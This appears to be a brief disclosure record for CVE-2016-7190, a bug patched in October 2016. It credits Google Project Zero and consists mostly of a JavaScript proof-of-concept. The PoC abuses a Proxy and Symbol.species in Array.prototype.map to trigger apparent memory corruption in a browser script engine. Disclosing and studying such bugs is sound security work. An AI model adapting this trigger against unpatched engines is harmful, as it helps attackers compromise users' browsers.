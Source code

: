 # CVE-2016-7190

- Report: Sep 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var d = new Array(1,2,3);
class dummy{

  constructor(){
    return d;
  }

}

var handler = {
    get: function(target, name){

  if(name == "length"){
    return 0x100;
  }
  return {[Symbol.species] : dummy};
    },

    has: function(target, name){
  return true;
    }
};

var p = new Proxy([], handler);

var a = new Array(1,2,3);

function test(){
  return 0x777777777777;

}

var o = a.map.call(p, test);
```

- [Microsoft](https://technet.microsoft.com/library/security/ms16-119)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=923)
